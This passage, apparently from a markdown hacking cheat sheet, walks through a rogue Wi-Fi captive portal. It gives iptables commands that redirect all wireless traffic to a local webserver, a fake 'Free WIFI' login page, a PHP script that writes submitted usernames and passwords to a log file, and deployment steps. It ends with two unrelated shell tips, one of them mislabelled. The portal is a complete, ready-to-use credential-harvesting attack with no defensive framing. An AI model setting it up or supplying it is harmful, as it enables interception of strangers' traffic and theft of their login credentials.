 #### 5.4.4 configure iptables and traffic forwarding
1. enable IP forwarding
`> echo "1" > /proc/sys/net/ipv4/ip_forward`

2. flush iptable rules
`> iptables -t nat -F`

3. enable traffic masquerading
`> iptables -t nat -A POSTROUTING -o <LAN dev> -j MASQUERADE`

4. send all wifi traffic to the webserver
`> iptables -t nat -A PREROUTING -i <wifi dev> -p tcp -j DNAT --to-destination <webserverip:port>`


#### 5.4.5 setup capture portal site
1. create simple html login page
```
<html>
<head>
  <title>Login</title>
</head>
<h3>Free WIFI</h3>
<p>Enter Username and Password:</p>
<form action="log.php" method = "get">
  <label for="username">Username</label> <input type="username" id="usename" name="username"><br /><br />
  <label for="password">Password:</label> <input type="text" id="password" name="password"><br /><br />
  <button type = "submit">Login</button>
  <button type = "submit">Sign Up</button>
</form>
</html>
```

2. create simple php logging script
```
<?php
$handle = fopen("log.txt", "a");
foreach($_GET as $variable => $value) {
fwrite($handle, $variable);
fwrite($handle, "=");
fwrite($handle, $value);
fwrite($handle, "\r\n");
}
fwrite($handle, "\r\n");
fclose($handle);
exit;
?>
```

3. copy both files to www directory
`cp <pwd>/* /var/www/html/`

4. start apache2 webserver
`service apache2 start`



---

## B. unsorted
- pipe output in "less" command (useful with long command outputs)
`> <command> | less`

- count words in a file
`> wc -l <file>`
